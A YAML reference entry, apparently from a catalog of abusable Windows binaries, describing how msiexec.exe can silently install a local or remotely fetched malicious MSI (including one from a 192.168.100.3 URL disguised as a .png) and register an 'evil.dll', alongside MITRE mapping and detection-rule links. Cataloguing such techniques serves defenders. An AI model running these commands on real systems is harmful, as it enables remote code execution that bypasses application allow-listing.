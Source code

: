 ```yaml
---
Name: Msiexec.exe
Description: Used by Windows to execute msi files
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: msiexec /quiet /i cmd.msi
    Description: Installs the target .MSI file silently.
    Usecase: Execute custom made msi file with attack code
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: msiexec /q /i http://192.168.100.3/tmp/cmd.png
    Description: Installs the target remote & renamed .MSI file silently.
    Usecase: Execute custom made msi file with attack code from remote server
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: msiexec /y "C:\folder\evil.dll"
    Description: Calls DLLRegisterServer to register the target DLL.
    Usecase: Execute dll files
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: msiexec /z "C:\folder\evil.dll"
    Description: Calls DLLRegisterServer to un-register the target DLL.
    Usecase: Execute dll files
    Category: Execute
    Privileges: User
    MitreID: T1218.007
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\msiexec.exe
  - Path: C:\Windows\SysWOW64\msiexec.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_msiexec_web_install.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_msiexec_cwd.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
  - Splunk: https://github.com/splunk/security_content/blob/18f63553a9dc1a34122fa123deae2b2f9b9ea391/detections/endpoint/uninstall_app_using_msiexec.yml
  - IOC: msiexec.exe retrieving files from Internet
Resources:
  - Link: https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/
  - Link: https://twitter.com/PhilipTsukerman/status/992021361106268161
Acknowledgement:
  - Person: netbiosX
    Handle: '@netbiosX'
  - Person: Philip Tsukerman
    Handle: '@PhilipTsukerman'
---
```

